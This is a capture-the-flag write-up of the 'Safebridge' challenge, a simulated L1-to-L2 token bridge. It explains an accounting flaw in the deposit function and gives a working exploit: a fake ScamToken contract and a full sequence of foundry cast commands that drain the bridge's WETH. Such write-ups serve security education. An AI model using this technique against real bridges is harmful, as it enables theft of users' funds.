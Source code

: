 
# Challenge

The Safebridge challenge simulates a L1->L2 bridge, which can be used to brige all kinds of ERC20 tokens. The most important files for the challenge are the `L1ERC20Bridge.sol` and the `L2ERC20Bridge.sol`. The 2 files handle all the transactions from L1 to L2 and vice versa.

# Analysis of the vulnerability

Whenever a token gets deposited on L1 the `_initiateERC20Deposit()` function gets called. 


```solidity
function _initiateERC20Deposit(address _l1Token, address _l2Token, address _from, address _to, uint256 _amount)
    internal
{
    IERC20(_l1Token).safeTransferFrom(_from, address(this), _amount);

    bytes memory message;
    if (_l1Token == weth) {
        message = abi.encodeWithSelector(
            IL2ERC20Bridge.finalizeDeposit.selector, address(0), Lib_PredeployAddresses.L2_WETH, _from, _to, _amount
        );
    } else {
        message =
            abi.encodeWithSelector(IL2ERC20Bridge.finalizeDeposit.selector, _l1Token, _l2Token, _from, _to, _amount);
    }

    sendCrossDomainMessage(l2TokenBridge, message);

    // This where we fuck up
    deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] + _amount;

    emit ERC20DepositInitiated(_l1Token, _l2Token, _from, _to, _amount);
}
```

Unfortunately if the `_l1Token` is WETH and `_l2Token` is any other token than L2WETH, the user will be issued L2WETH on L2 while the contracts storage adds a deposit of L1WETH->UserToken. A user can then use the issued L2WETH to redeem for the 2ether L1WETH that were deposited during the setup and then use 2ether of his L2 token to redeem the 2ether of WETH he deposited.


# Exploit

The issue can be split into multiple steps.

1. Wrap 2 ether in L1WETH
2. Deploy a malicious token contract on L2 called SCAM
3. Deposit 2ether L1WETH->SCAM on the L1-Bridge
4. L2-Bridge will automatically withdraw WETH to the user
4. Deposit 2ether of WETH on L2-Bridge
5. Deposit 2ether of SCAM on L2-Bridge
6. Both will automatically withdraw 2ether of WETH for you on L1
7. The bridge is now empty and the challenge finished.

An exemplary malicious token to deploy on L2 can be found below.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IL2StandardERC20 {
    function l1Token() external returns (address);

    function mint(address _to, uint256 _amount) external;

    function burn(address _from, uint256 _amount) external;

    event Mint(address indexed _account, uint256 _amount);
    event Burn(address indexed _account, uint256 _amount);
}

contract ScamToken{
    address public l1Token;

    constructor(address _l1Token) {
        l1Token = _l1Token;
    }

    function supportsInterface(bytes4 _interfaceId) public pure returns (bool) {
        bytes4 firstSupportedInterface = bytes4(keccak256("supportsInterface(bytes4)")); // ERC165
        bytes4 secondSupportedInterface =
            IL2StandardERC20.l1Token.selector ^ IL2StandardERC20.mint.selector ^ IL2StandardERC20.burn.selector;
        return _interfaceId == firstSupportedInterface || _interfaceId == secondSupportedInterface;
    }

    function mint(address _to, uint256 _amount) public virtual {

    }

    function burn(address _from, uint256 _amount) public virtual {

    }
}
```

The exploit can be run using the following foundry cast commands.

```solidity
RPCL1="http://47.251.56.125:8545/DGmkZgdXKHZWhlzOurJlcGte/l1"
RPCL2="http://47.251.56.125:8545/DGmkZgdXKHZWhlzOurJlcGte/l2"
KEY=0x15a1e7b242c99889c96a134b0bcc3270e97cdd47b1861285d9f5041cee469f32
CHALLENGE=0xE12c45392Ec952bc570b1AfB79dc1901490993B1
BRIDGEL2=0x420000000000000000000000000000000000baBe
WETHL2=0xDeadDeAddeAddEAddeadDEaDDEAdDeaDDeAD0000

// Get WETH
cast call --rpc-url $RPCL1 $CHALLENGE "WETH()(address)"
WETHL1=0x1eaf88837a01eD24511a23500F15a3E1Ea70207E

// Get L1BRIDGE
cast call --rpc-url $RPCL1 $CHALLENGE "BRIDGE()(address)"
BRIDGEL1=0x3FF9CA7474cDC867A9927b4C47F81da199CA327B

// Deposit 2 eth
cast send --rpc-url $RPCL1 --value 2ether --private-key $KEY $WETHL1 "deposit()"

// Approve bridge for WETH
cast send --rpc-url $RPCL1 --private-key $KEY $WETHL1 "approve(address,uint256)" $BRIDGEL1 2ether

// Deploy ScamCoin
forge create --rpc-url $RPCL2 --private-key $KEY src/ScamToken.sol:ScamToken --constructor-args $WETHL1

// Save our Scamcoin
SCAM=0x29e69e538145299eaF0F476B6d6A53BFEa341E2e

// Deposit L1WETH to SCAM
cast send --rpc-url $RPCL1 --private-key $KEY $BRIDGEL1 "depositERC20(address,address,uint256)" $WETHL1 $SCAM 2ether

// Deposit 2 eth of WETH
cast send --rpc-url $RPCL2 --private-key $KEY $BRIDGEL2 "withdraw(address,uint256)" $WETHL2 2ether

// Deposit 2 eth of scam
cast send --rpc-url $RPCL2 --private-key $KEY $BRIDGEL2 "withdraw(address,uint256)" $SCAM 2ether
```

This yields you the flag `rwctf{yoU_draINED_BriD6E}`.
